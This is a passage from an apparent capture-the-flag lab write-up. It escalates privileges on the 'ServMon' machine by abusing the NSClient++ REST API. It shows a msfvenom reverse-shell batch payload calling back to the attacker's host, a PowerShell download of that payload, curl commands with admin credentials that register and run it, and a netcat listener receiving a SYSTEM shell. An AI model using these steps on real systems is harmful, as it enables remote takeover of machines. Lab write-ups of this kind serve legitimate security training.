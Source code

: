 First, let's prepare a batch file `payload` with msfvenom.

`# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.X.X LPORT=8888 -f bat > sorryforthis.bat`

Then, infiltate it.

`nadine@SERVMON c:\Temp>powershell -c "Invoke-WebRequest -Uri http://10.10.X.X:8000/sorryforthis.bat -OutFile c:\temp\sorryforthis.bat`

Now, let's define a **script** pointing to our payload. The `-k` flag is needed to run insecure connections over SSL.

```
nadine@SERVMON c:\Temp>curl -s -k -u admin:ew2x6SsGTxjRwXOT -X PUT https://localhost:8443/api/v1/scripts/ext/scripts/sorryforthis.bat 
--data-binary @sorryforthis.bat
Added sorryforthis as scripts\sorryforthis.bat
```

Finally, we **execute** it (in the form of a [query](https://docs.nsclient.org/api/rest/queries/)) directly rather than setting a schedule to do it.

```
nadine@SERVMON c:\Temp>curl -s -k -u admin:ew2x6SsGTxjRwXOT "https://localhost:8443/api/v1/queries/sorryforthis/commands/execute"
{"command":"sorryforthis","lines":[{"message":"Command sorryforthis didn't terminate within the timeout period 60s","perf":{}}],"resul
t":3}
```

After executing the script, we get a system shell.

```
# nc -nvlp 8888
listening on [any] 8888 ...
connect to [10.10.X.X] from (UNKNOWN) [10.10.10.184] 49694
Microsoft Windows [Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Program Files\NSClient++>whoami
whoami
nt authority\system
```

# Thoughts

I also tried the privilege escalation through port forwarding with this box. You will need it if you want to exploit via the GUI.

However, you don't need it if you're exploiting locally via the API.
